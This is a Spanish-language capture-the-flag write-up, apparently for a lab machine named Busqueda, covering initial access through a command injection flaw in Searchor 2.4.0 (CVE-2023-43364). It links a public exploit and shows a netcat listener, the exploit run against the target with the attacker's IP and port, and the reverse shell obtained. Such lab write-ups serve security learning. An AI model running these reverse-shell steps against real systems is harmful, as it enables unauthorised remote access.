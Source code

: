 ## Initial Access

### Searchor 2.4.0 - Command Injection (CVE-2023-43364)

En la propia página web de `Busqueda`, nos encontramos que la página web utiliza `Flask` y `Searchor 2.4.0`.

<figure><img src="../../.gitbook/assets/imagen (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizando una búsqueda por Internet de posibles vulnerabilidades sobre esta versión, nos encontramos con el siguiente `CVE-2023-43364`.

{% embed url="https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2023-43364" %}

{% hint style="danger" %}
main.py en Searchor anterior a 2.4.2 usa eval en la entrada CLI, lo que puede provocar la ejecución inesperada de código.
{% endhint %}

Por otro lado, nos encontramos con el siguiente repositorio de GitHub que automatiza la explotación de la vulnerabilidad otorgándonos una Reverse Shell.

{% embed url="https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection" %}

Nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Realizaremos la explotación indicando el target vulnerable y nuestra dirección y puerto donde recibiremos la Reverse Shell.

```bash
❯ ./exploit.sh searcher.htb 10.10.16.7 443
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is searcher.htb
[*] Input attacker is 10.10.16.7:443
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
```

Verificamos que hemos ganado el acceso correctamente al equipo.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.208] 37882
bash: cannot set terminal process group (1646): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ 
```
